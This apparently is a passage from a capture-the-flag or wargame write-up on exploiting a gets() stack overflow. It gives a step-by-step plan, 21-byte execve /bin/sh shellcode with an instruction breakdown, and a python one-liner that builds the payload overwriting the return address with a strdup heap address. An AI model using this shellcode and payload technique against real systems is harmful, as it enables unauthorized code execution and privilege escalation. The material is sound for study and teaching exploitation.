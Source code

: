**Exploitation Plan:**
1. **Place shellcode** at beginning of input
2. **Add padding** to reach return address (80 bytes total)  
3. **Overwrite return address** with heap address (0x804a008)
4. **strdup() copies shellcode** to heap at known address
5. **Function return** jumps to heap shellcode
6. **Shell execution** with elevated privileges

### 10. Crafting the Shellcode
```bash
# Compact shellcode for /bin/sh execution (21 bytes):
shellcode = (
    "\x6a\x0b"                    # push 0xb (execve syscall)
    "\x58"                        # pop eax
    "\x99"                        # cdq (clear edx)
    "\x52"                        # push edx (NULL terminator)
    "\x68\x2f\x2f\x73\x68"        # push "//sh"
    "\x68\x2f\x62\x69\x6e"        # push "/bin"
    "\x89\xe3"                    # mov ebx, esp ("/bin//sh")
    "\x31\xc9"                    # xor ecx, ecx (argv = NULL)
    "\xcd\x80"                    # int 0x80 (syscall)
)

# Shellcode breakdown:
# 1. Set up execve syscall number (11) in EAX
# 2. Clear EDX for environment pointer
# 3. Push "/bin//sh" string onto stack
# 4. Set EBX to point to filename
# 5. Clear ECX for argv pointer  
# 6. Execute system call
```

### 11. Payload Construction
```bash
# Payload structure:
# [21 bytes shellcode] + [59 bytes padding] + [4 bytes heap address]
# Total: 80 bytes to reach return address + 4 bytes return address

# Memory layout after gets():
# Buffer[0-20]:   Shellcode
# Buffer[21-79]:  Padding ("A" characters)
# Return address: 0x0804a008 (heap address where strdup copies our data)

# Creating the payload:
python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A"*59 + "\x08\xa0\x04\x08"' > /tmp/payload2
```

**Payload Logic:**
1. **Shellcode placement**: First 21 bytes contain our shell execution code
2. **Padding calculation**: 80 - 21 = 59 bytes needed to reach return address
3. **Return address**: 0x0804a008 in little-endian format (\x08\xa0\x04\x08)
4. **gets() overflow**: Corrupts return address on stack
5. **strdup() allocation**: Copies entire payload (including shellcode) to heap
6. **Function return**: Jumps to heap address, executes shellcode
